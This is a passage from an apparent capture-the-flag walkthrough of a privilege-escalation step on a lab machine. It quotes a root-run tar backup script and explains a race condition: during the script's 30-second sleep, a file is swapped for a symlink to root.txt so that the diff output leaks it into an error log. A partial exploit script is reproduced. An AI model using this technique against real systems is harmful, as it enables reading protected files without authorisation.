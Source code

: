 ```bash
/usr/bin/sudo -u onuma /bin/tar -zcvf $tmpfile $basedir &

# Added delay to wait for backup to complete if large files get added.
/bin/sleep 30

# Test the backup integrity
integrity_chk()
{
    /usr/bin/diff -r $basedir $check$basedir
}

/bin/mkdir $check
/bin/tar -zxvf $tmpfile -C $check
if [[ $(integrity_chk) ]]
then
    # Report errors so the dev can investigate the issue.
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg
    exit 2
else
    # Clean up and save archive to the bkpdir.
    /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
    /bin/rm -rf $check .*
    exit 0
fi
```

This script makes archive then sleeps for 30 sec , extracts the archive in a new location and checks the diference between the archive and the basefile.
So what we can do is during the 30 sec sleep we can change the archive and place the link of root.txt instead of robots.txt make the archive and leave it. So when the script extracts our archive the diff command would observe the changes and save them in /var/backups/onuma_backup_error.txt

I did this using a n amzing script by 0xdf

```bash
#!/bin/bash

# work out of shm
cd /dev/shm

# set both start and cur equal to any backup file if it's there
start=$(find /var/tmp -maxdepth 1 -type f -name ".*")
cur=$(find /var/tmp -maxdepth 1 -type f -name ".*")

# loop until there's a change in cur
echo "Waiting for archive filename to change..."
while [ "$start" == "$cur" -o "$cur" == "" ] ; do
    sleep 10;
    cur=$(find /var/tmp -maxdepth 1 -type f -name ".*");
done

# Grab a copy of the archive
echo "File changed... copying here"
cp $cur .

# get filename
fn=$(echo $cur | cut -d'/' -f4)

# extract archive
tar -zxf $fn

# remove robots.txt and replace it with link to root.txt
```